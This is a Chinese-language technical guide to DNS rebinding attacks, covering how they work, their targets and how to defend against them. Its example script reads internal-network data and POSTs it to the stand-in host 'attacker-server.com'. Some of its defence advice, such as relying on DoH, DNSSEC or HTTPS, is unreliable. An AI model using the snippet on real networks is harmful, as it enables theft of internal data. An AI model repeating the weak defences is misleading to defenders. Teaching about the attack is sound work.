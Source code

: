 # DNS重绑定攻击技术文档

## 1. 概述

DNS重绑定攻击（DNS Rebinding Attack）是一种利用DNS解析机制和浏览器同源策略（Same-Origin Policy, SOP）漏洞的攻击技术。攻击者通过操纵DNS解析过程，绕过浏览器的安全限制，实现对目标系统的未授权访问或数据窃取。该攻击通常用于针对内网服务、Web应用程序或IoT设备，是一种常见且危害较大的Web安全威胁。

---

## 2. 定义

DNS重绑定攻击是一种通过控制DNS解析结果，使得浏览器在同一个会话中访问不同的IP地址，从而绕过同源策略限制的攻击技术。攻击者通过快速更改DNS记录，将合法域名解析到恶意IP地址或目标内网地址，实现对目标系统的未授权访问。

---

## 3. 攻击原理

### 3.1 同源策略（Same-Origin Policy, SOP）
同源策略是浏览器的核心安全机制，它限制了一个源（协议、域名、端口）的脚本或资源只能访问同源的资源。例如，`https://example.com`的脚本无法直接访问`https://another.com`的资源。

### 3.2 DNS重绑定攻击的核心思想
攻击者通过以下步骤实现DNS重绑定攻击：
1. **注册恶意域名**：攻击者注册一个域名（如`evil.com`），并配置其DNS记录的TTL（Time to Live）为极短的值。
2. **诱导用户访问**：攻击者诱导用户访问`evil.com`，浏览器会向DNS服务器查询`evil.com`的IP地址。
3. **首次解析**：DNS服务器返回一个合法的IP地址（如攻击者控制的服务器），浏览器加载页面并执行恶意脚本。
4. **快速更改DNS记录**：在TTL过期后，攻击者将`evil.com`的DNS记录更改为目标内网地址（如`192.168.1.1`）。
5. **二次解析**：浏览器再次查询`evil.com`的IP地址，此时DNS服务器返回目标内网地址。
6. **绕过同源策略**：由于浏览器认为`evil.com`与目标内网地址属于同一源，恶意脚本可以访问内网资源。

---

## 4. 攻击分类

根据攻击目标和实现方式，DNS重绑定攻击可以分为以下几类：

### 4.1 针对内网服务的攻击
攻击者通过DNS重绑定技术，将域名解析到内网地址（如`192.168.1.1`），从而访问内网中的未授权服务（如路由器管理界面、数据库服务等）。

### 4.2 针对Web应用程序的攻击
攻击者利用DNS重绑定技术，绕过同源策略，窃取目标Web应用程序的敏感数据（如Cookie、Session Token等）。

### 4.3 针对IoT设备的攻击
攻击者通过DNS重绑定技术，访问未正确配置的IoT设备（如摄像头、智能家居设备），获取控制权或窃取数据。

---

## 5. 技术细节

### 5.1 DNS TTL的作用
DNS TTL（Time to Live）是DNS记录在缓存中的存活时间。攻击者通过设置极短的TTL（如1秒），使得DNS记录可以快速更改，从而实现DNS重绑定。

### 5.2 浏览器DNS缓存机制
浏览器会缓存DNS解析结果，以提升性能。然而，如果DNS记录的TTL较短，浏览器会在TTL过期后重新查询DNS服务器，从而加载新的IP地址。

### 5.3 攻击示例
以下是一个简单的DNS重绑定攻击示例：

```html
<!-- evil.com的恶意页面 -->
<script>
function attack() {
    // 首次访问攻击者控制的服务器
    fetch('http://evil.com/data')
        .then(response => response.text())
        .then(data => {
            // 在TTL过期后，DNS记录更改为目标内网地址
            fetch('http://evil.com/internal')
                .then(response => response.text())
                .then(internalData => {
                    // 将内网数据发送到攻击者服务器
                    fetch('http://attacker-server.com/steal', {
                        method: 'POST',
                        body: internalData
                    });
                });
        });
}
setTimeout(attack, 1000); // 等待DNS记录更改
</script>
```

### 5.4 攻击向量
- **恶意网站**：攻击者诱导用户访问恶意网站，触发DNS重绑定攻击。
- **广告网络**：攻击者通过恶意广告注入DNS重绑定攻击代码。
- **电子邮件**：攻击者通过钓鱼邮件诱导用户点击恶意链接。

---

## 6. 防御思路和建议

### 6.1 服务器端防御
- **验证Host头**：服务器应验证HTTP请求的`Host`头，确保请求来自合法的域名。
- **限制内网访问**：内网服务应配置访问控制列表（ACL），限制外部IP地址的访问。
- **使用HTTPS**：通过HTTPS加密通信，防止攻击者篡改DNS解析结果。

### 6.2 客户端防御
- **禁用短TTL DNS记录**：浏览器可以限制对短TTL DNS记录的解析，防止DNS重绑定攻击。
- **启用DNS-over-HTTPS（DoH）**：通过加密的DNS查询，防止攻击者篡改DNS解析结果。
- **使用浏览器扩展**：安装安全扩展（如NoScript）限制恶意脚本的执行。

### 6.3 网络层防御
- **配置防火墙规则**：防火墙应限制外部流量访问内网地址。
- **启用DNSSEC**：通过DNSSEC验证DNS记录的真实性，防止DNS劫持。

### 6.4 开发者建议
- **避免使用内网地址**：Web应用程序应避免直接使用内网地址，防止被DNS重绑定攻击利用。
- **实施CORS策略**：正确配置跨域资源共享（CORS）策略，限制跨域请求。

---

## 7. 总结

DNS重绑定攻击是一种利用DNS解析机制和浏览器同源策略漏洞的高级攻击技术。通过快速更改DNS记录，攻击者可以绕过浏览器的安全限制，访问内网资源或窃取敏感数据。防御DNS重绑定攻击需要从服务器端、客户端和网络层多个层面采取措施，包括验证Host头、限制内网访问、启用DNSSEC等。开发者应遵循安全最佳实践，避免引入潜在的安全风险。

通过深入理解DNS重绑定攻击的原理和防御方法，中高级安全从业人员可以更好地保护Web应用程序和内网服务免受此类攻击的威胁。

---

*文档生成时间: 2025-03-11 14:41:44*

